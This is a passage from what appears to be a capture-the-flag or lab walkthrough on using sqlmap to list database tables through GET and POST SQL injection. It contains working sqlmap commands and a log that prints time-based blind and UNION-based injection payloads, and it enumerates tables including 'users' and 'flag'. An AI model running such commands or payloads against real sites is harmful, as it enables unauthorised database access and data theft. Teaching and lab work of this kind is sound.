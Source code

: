 ```shell-session
[*] performance_schema
[*] sys
[*] test
```

  
Now that we have the databases, let's extract tables from the database **blood**.

**Using GET based Method**  
  
`sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables`

**`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`  
**  
**Using POST based Method**

`sqlmap -r req.txt -p blood_group -D blood --tables`

**`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`  
**

Once we run these commands, we should get the tables.

Getting Tables

```shell-session
nare@nare$ sqlmap -r req.txt -p blood_group -D blood --tables
[19:35:57] [INFO] parsing HTTP request from 'req.txt'
[19:35:57] [INFO] resuming back-end DBMS 'mysql'
[19:35:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
---
[19:35:58] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[19:35:58] [INFO] fetching tables for database: 'blood'
[19:35:58] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```
